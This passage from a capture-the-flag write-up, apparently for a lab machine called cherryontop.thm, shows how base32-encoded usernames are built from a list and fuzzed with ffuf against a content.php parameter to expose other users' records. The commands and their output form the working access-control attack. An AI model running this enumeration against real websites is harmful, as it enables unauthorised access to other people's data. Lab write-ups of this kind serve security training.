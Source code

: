 One interesting thing is the `user` value, which is `Guest` base32 encoded.

```console
$ echo I52WK43U | base32 -d
Guest
```

Since we already have a list of usernames, we can convert them to base32 and fuzz for other facts we might access. Seeing the `Guest`, we also add `Admin` to the list of usernames.

```
root
chad-cherry
molly-milk
sam-sprinkles
bob-boba
notsus
Admin
```
{: file="usernames.txt"}

Converting them to `base32` for fuzzing.

```console
$ for i in $(cat usernames.txt); do echo -n $i | base32 >> base32-usernames.txt; done
```

Now, fuzzing the IDs along with the usernames and filtering the facts we already got, we see a couple of different results for the same IDs we found before.

```console
$ ffuf -u 'http://cherryontop.thm/content.php?facts=IDS&user=USER' -w <(seq 1 100):IDS -w base32-usernames.txt:USER -mc all -t 100 -fw 754 -fs 2499,2519,2514,2523,2479,2498,2487,2486

[Status: 200, Size: 2531, Words: 765, Lines: 63, Duration: 88ms]
    * IDS: 64
    * USER: MNUGCZBNMNUGK4TSPE======

[Status: 200, Size: 2572, Words: 771, Lines: 63, Duration: 103ms]
    * IDS: 50
    * USER: NVXWY3DZFVWWS3DL

[Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 123ms]
    * USER: ONQW2LLTOBZGS3TLNRSXG===
    * IDS: 43

[Status: 200, Size: 2558, Words: 769, Lines: 63, Duration: 131ms]
    * USER: MJXWELLCN5RGC===
    * IDS: 20

[Status: 200, Size: 2558, Words: 764, Lines: 63, Duration: 469ms]
    * IDS: 43
    * USER: IFSG22LO
```
{: .wrap }

